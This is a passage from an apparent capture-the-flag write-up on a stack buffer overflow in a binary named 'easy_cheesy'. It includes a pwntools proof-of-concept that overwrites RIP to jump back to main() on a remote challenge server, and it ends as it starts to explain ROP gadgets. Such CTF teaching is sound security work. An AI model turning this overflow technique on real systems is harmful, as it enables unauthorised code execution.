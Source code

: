 Okay, it segfaults at 80 A's....

It looks like we did change RIP, because the program segfaults.

So now I'll whip up a small proof of concept using pwntools, which is a really handy Python library. This will send a payload of 72 A's, followed by the address of main(). This should make the program jump back to the main function instead of exiting normally.

```python
from pwn import *

cheese = remote("35.246.53.125", 10005) #The location of the binary to be run
context = ELF("./easy_cheesy") #Our local binary, where we'll grab symbols from

#We can get addresses out of binaries really easily using pwntools "symbols".symbols["main] will give us the entrypoint for main
main = p64(context.symbols["main"]) #p64 will pack the address of main into a 64bit address
junk = (("A")*72).encode() #Encode our payload so we can concatenate it with the bytes-format of packed addresses

payload = junk + main

cheese.sendline(payload)
cheese.interactive()
```

![Untitled%206.png](Untitled%206.png)

Running the POC 

Annnnd it works! We know it worked, because the prompt from main gets sent to us twice! This means that main() ran once, had it's RIP overwritten to point back to itself, and then ran again because of that. Now we're onto the next step.

## Step 5: Talking gadgets

**If you're familiar with how gadgets work, you can skip this step!**

Now is probably a good time to talk about gadgets. Gadgets are small groups of assembly instructions that are already present in the binary, and they perform really cool operations. Let's take a look at one of the simplest, most important gadgets: `pop rdi; ret`.
